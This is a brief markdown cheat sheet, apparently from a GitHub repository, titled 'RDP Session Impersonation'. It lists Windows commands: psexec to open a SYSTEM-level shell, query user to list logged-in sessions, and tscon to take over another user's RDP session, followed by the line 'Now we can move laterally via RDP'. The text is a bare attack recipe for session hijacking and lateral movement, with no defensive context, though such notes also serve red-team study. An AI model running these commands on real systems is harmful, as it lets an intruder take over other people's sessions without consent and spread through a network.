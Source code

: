 # RDP Session Impersonation

 - psexec -s -i cmd

 - query user

 - cmd /k tscon ID /dest:console

### Now we can move laterally via RDP
